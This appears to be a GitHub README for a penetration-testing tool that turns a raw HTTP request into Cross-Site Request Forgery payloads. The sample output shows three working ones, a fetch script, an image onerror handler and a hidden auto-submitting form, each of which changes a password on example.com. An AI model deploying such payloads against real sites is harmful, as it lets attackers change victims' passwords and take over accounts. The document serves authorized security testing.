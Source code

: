 # csrf-payload-generator
CSRF Payload Generator A powerful and flexible Cross-Site Request Forgery (CSRF) Payload Generator designed for security enthusiasts and penetration testers. This tool automates the generation of CSRF attack payloads based on HTTP requests.

Features
* Supports Multiple Payload Methods:
    
    - fetch: Uses the Fetch API to execute CSRF requests programmatically.
    - onerror: Leverages the onerror event of an empty image tag for CSRF execution.
    - form: Auto-submitting HTML forms for CSRF attacks.

* HTML Output:
    - Generates an easy-to-use HTML file containing all the CSRF payloads for testing.

* How It Works
    - Input: Supply a raw HTTP request 
    - Process: The tool parses the HTTP request, extracts relevant data, and generates payloads.
    - Output: Produces an HTML file containing the generated payloads for execution.

* Usage
  
  1 - Clone the repository:
  
---
  ```
git clone https://github.com/Abutalib-Zarban/csrf-payload-generator.git

```
 2 - Navigate to the directory:
  ```
cd csrf-payload-generator

```

 3 - Run the script with a  HTTP request file:

```
python3 csrf_generator.py request.txt


```

4- Select the desired CSRF payload method:

    
    1: fetch
    2: onerror
    3: form
    4: All methods
View the output in the csrf_payloads.html file.


* Requirements
    - Python 3.x: The script is written in Python and requires Python 3.x.

 
---------------------------
* Request sample :
```
  POST /user/change-password HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Cookie: sessionid=abcd1234efgh5678ijkl9012mnop3456

new_password=newpassword456
```

----------------------------
* Tool Output :
    - If all Methods selected 
  
```

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF Payloads</title>
</head>
<body>
    <h1>Generated CSRF Payloads</h1>

    <h2>Fetch Payload</h2>
    <div>
        <pre>
<script>
fetch("http://www.example.com/user/change-password", {
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded"
    },
    body: "new_password=newpassword456xyy"
});
</script>
</pre>
    </div>
    <hr>

    <h2>Onerror Payload</h2>
    <div>
        <pre>
<img src="" onerror="fetch('http://www.example.com/user/change-password', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    }, body: 'new_password=newpassword456xyy'
})" style="display:none;">
</pre>
    </div>
    <hr>

    <h2>Form Payload</h2>
    <div>
        <pre>
<form action="http://www.example.com/user/change-password" method="POST" target="hidden_iframe">
    <input type="hidden" name="new_password" value="newpassword456xyy">
    <script>
        document.forms[0].submit();
    </script>
</form>
<iframe name="hidden_iframe" style="display:none;"></iframe>
</pre>
    </div>
    <hr>

</body>
</html>

```

------
* Disclaimer
This tool is intended for educational purposes and authorized security testing only. Misuse of this tool may result in legal consequences. Always obtain proper permission before conducting any tests.
 

